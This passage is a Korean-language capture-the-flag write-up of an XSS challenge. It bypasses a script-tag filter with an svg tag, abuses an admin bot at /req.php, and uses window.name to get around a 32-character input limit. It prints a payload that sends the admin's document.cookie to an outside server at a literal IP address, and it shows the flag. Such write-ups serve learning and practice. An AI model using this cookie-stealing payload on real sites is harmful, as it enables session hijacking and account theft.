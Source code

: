 ![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FchvPQn%2FbtqF1B1dV2L%2FwyGz6Ypl4FmkVgh8S8g540%2Fimg.png)

`script` Tag는 사용하지 못하므로 `svg` Tag를 사용해서 `xss`를 트리거 해보니 잘 되는 것을 확인 할 수 있었습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fn0LuU%2FbtqF2RCjUjC%2FsiwW2R3zm9HM0OPvuDyjS0%2Fimg.png)

팝업 창을 닫아 보니 `Contact admin /req.php`라는 문구가 떴습니다. 아마 `/req.php`가 `Admin Bot`이고 여길 통해 XSS를 해 쿠키를 탈취를 해야 하는 거 같습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdM1n0b%2FbtqF14WbTVh%2FQeyb3vKTTNeUkMqlYvjcg0%2Fimg.png)

`/req.php`로 들어와 보니 `Name`, `Url`, `Message`를 입력해 Admin Bot으로 요청을 보낼 수 있습니다. 그런데 생각해보면 `new` 파라미터의 값의 길이는 32자로 제한이 있어 document.location을 이용해 내 서버로 쿠키를 탈취 할 수는 없었습니다. 여기서 막혀 잠을 자고 일어나 다시 구글링을 시작해보았는데 `window.name`을 이용해서 xss를 하는 것을 보았습니다.

```html
<script>
    window.name = "document.location = `http://141.164.55.161:8080/info.php?data=` + document.cookie";
    window.location = "http://127.0.0.1/?login=?login=O:11:%22Traversable%22:0:{}&new=<svg/onliad=eval(name)?>";
</script>
```
`window.name`을 이용해 위와 같이 페이로드를 작성해주었습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcjKZw3%2FbtqF1R3Rj1N%2FHb6WOZDU2bFMqO0Djo4K40%2Fimg.png)

/req.php에서 `Url`을 입력하는 곳에 `제 서버 URL`을 입력해 전송을 해보니 스크립트가 잘 실행이 되어 `flag.txt`가 생긴 것을 볼 수 있었고, 그 값으로 FALG가 들어 있는 것을 볼 수 있었습니다.

> FLAG : 3k{3asy_XsS_&_pHp_Ftw}

---
